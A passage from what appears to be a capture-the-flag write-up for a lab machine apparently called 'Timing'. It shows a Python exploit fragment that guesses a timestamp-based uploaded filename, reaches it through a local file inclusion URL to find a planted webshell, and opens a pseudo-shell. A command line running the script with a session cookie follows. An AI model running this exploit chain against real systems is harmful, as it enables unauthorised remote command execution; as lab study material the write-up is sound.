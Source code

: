```python
# find correct url
url_webshell = None
timestamp = phptime()

for iterator in range(-2, 10):
    possible_filename = figure_filename(timestamp + iterator, filename)
    possible_url = url_lfi + possible_filename
    check_res = requests.get(possible_url)
    response_size = len(check_res.text)
    
    print(iterator, possible_url, check_res, response_size)

    if response_size > 0:
        print("[+] FOUND!!!")
        url_webshell = possible_url
        break

if not url_webshell:
    print("[-] Did not find a working url. Increase range on very slow connections.")
    sys.exit(1)

# start webshell handler
pseudo_shell(url_webshell)
```

The session string needs to be for an upgraded account.

```bash
$ python3 exploit.py 10.10.11.135 'PHPSESSID=gbdbhroavkbgihookd36f4ikns' smile.jpg
```

![Pseudo Shell](/assets/img/timing_63_pseudo_shell.png)


## User Shell
